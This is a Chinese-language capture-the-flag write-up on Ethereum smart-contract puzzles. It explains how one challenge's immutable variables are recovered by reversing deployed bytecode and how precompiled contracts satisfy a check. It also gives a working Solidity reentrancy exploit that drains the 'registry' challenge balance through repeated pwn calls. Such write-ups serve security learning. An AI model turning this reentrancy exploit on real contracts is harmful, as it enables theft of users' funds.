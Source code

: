 比较有意思的题。这题要我们输入四个参数满足guess函数的四个条件。只是简单分析一下的话发现这些条件似乎是没法满足的。但我们不难看出constructor函数末尾调用了一个非常奇怪的pureFunc。注意到immutable变量本质是在initcode中对源代码的对应位置进行了替换，之后直接输出替换后的code来使得值不进入storage。因此我们考虑这个pureFunc可能改掉了上面的immutable变量。于是我们直接从链上掏下来部署后的code进行逆向，和源代码进行对照来得出真正使用的值。

逆向后可以发现，`random01=1,random02=2,random03=32`，而random04没有变化。因此我们不难构造guess参数：

通过逆向可以知道，solidity中当前数组长度是存在0x60的位置的，因此要满足第一个条件我们需要取`_random01=0x60,value=1`。

对于第二个，我们只需要取`(2-(address+1+2+0x20))&0xff`。

对于第三个，我们需要函数调用一个地址非常小的合约的Fallbacker函数，其返回的长度恰好是32。对EVM熟悉的人，看到地址非常小的合约就应该想到precompiled。显然0x2和0x3作为可以接受任意输入的哈希函数调用，返回的长度一定是32，我们随便选一个就好了。

对于第四个，由于由于没有做任何修改，不难看出直接取参数为10就行。

## registry

不是很难的题。我们需要先注册一个地址，之后让这个地址的钱数减少59425114757512643212875124后触发identifyNaryaHacker。不难发现调用pwn函数是可以减钱的，尽管函数中限制了只能用一次，但是不难发现由于里面存在任意调用且没有做防护，我们可以任意重入。

再分析一下pwn函数的逻辑，发现函数限制了每次调用的值必须是斐波那契数列。我们搜索一下也不难发现59425114757512643212875124是斐波那契数列的第前127项的和。也就是说我们只需要来回调用127次pwn就行。当然我们不用在代码里面检查次数，直接维护一个balance就好了。具体写的时候注意由于EVM call时gas会减少，而我们来回需要调用两百多层，因此我们应该把gas限制尽可能地拉大。

这题不知道为啥，上线之后环境一直崩，修了好久才修好。。本来看到题就写了exp结果半天交不了。

```solidity
contract hack
{
    NaryaRegistry reg;
    uint256 public deltav=0;
    constructor(address t) public 
    {
        reg=NaryaRegistry(t);
    }
    function work() public
    {
        reg.register();
        deltav=reg.balances(address(this))-0xda0;
        reg.pwn(2);
        require(reg.balances(address(this))==0xda0);
        reg.identifyNaryaHacker();
    }
    function PwnedNoMore(uint256 amo) public 
    {
        deltav-=amo;
        if(deltav==0)
        {
            return;
        }
        uint nt=reg.records1(address(this))+amo;
        reg.pwn(nt);
    }
}
```
